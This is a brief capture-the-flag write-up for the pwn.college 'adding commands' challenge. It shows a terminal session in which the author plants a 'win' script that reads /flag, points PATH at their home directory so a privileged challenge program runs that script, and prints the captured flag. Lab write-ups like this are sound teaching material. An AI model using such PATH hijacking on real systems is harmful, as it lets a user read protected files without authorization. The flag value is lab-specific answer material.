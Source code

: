 # Challenge Name
adding commands

## My solve
**Flag:** `pwn.college{A5b_ilU4TI4ooqNZXYDW4cbk6cd.QX2cjM1wyM3EzNzEzW}`

```bash
Connected!
hacker@path~adding-commands:~$ echo 'read FLAG < /flag; echo "$FLAG"' > win
hacker@path~adding-commands:~$ chmod +x win
hacker@path~adding-commands:~$ PATH=/home/hacker
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{A5b_ilU4TI4ooqNZXYDW4cbk6cd.QX2cjM1wyM3EzNzEzW}
```

## Incorrect tangents I went on
none

## What I learned
i learnt how to add commands to PATH.

## References 
None
